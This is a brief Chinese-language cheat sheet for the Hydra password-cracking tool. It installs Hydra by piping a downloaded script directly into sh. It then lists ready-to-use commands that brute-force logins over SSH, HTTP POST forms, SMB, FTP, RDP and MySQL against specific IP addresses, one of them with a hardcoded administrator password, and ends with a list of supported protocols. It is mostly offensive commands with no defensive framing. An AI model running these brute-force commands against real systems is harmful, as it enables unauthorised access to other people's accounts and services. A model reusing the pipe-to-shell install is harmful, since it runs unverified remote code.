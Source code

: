 # hydra

## 安装
    wget -q -O - http://www.atomicorp.com/installers/atomic | sh
    yum install hydra


## 破解ssh
    hydra -L user.txt -P pass.txt -v ssh://192.200.254.254:22345 -t 16


## http-post破解
    hydra -t 3 -L admin.txt -P passwd.txt 192.200.254.224 http-post-form "/login.php:user=^USER^&pass=^PASS^:登录失败" -o http.log
    http-post-form httppost方法提交表单
    user post字段
    pass post字段
    ^USER^ 固定格式字段
    ^PASS^ 固定格式字段


    登录失败 认证失败返回的html内容包含的信息  

## 破解smb
    hydra -L admin.txt -P passwd.txt 127.0.0.1 smb

## 破解ftp
    hydra -L admin.txt -P passwd.txt 127.0.0.1 ftp -vV


## 破解rdp
    hydra -L admin.txt -P passwd.txt 192.200.254.220 rdp -vV -o rdp.txt

## 破解 mysql
    hydra -L admin.txt -P passwd.txt mysql://127.0.0.1:3306
    hydra -l  administrator -p sangfor@2015  -t  10   rdp://192.200.254.201
    hydra -L  admin.txt  -P  passwd.txt  -t  10  smb://192.200.254.201


## 其他支持协议
- asterisk
- cisco
- cisco-enable
- cvs
- firebird
- ftp
- ftps
- http[s]-{head|get}
- http[s]-{get|post}-form
- http-proxy
- http-proxy-urlenum
- icq
- imap[s]
- irc
- ldap2[s] ldap3[-{cram|digest}md5][s]
- mssql
- mysql
- nntp
- oracle-listener oracle-sid
- pcanywhere
- pcnfs
- pop3[s]
- postgres
- rdp
- redis
- rexec
- rlogin
- rsh
- s7-300
- sip
- smb
- smtp[s] smtp-enum
- snmp
- socks5
- ssh
- sshkey
- svn
- teamspeak
- telnet[s]
- vmauthd
- vnc
- xmpp
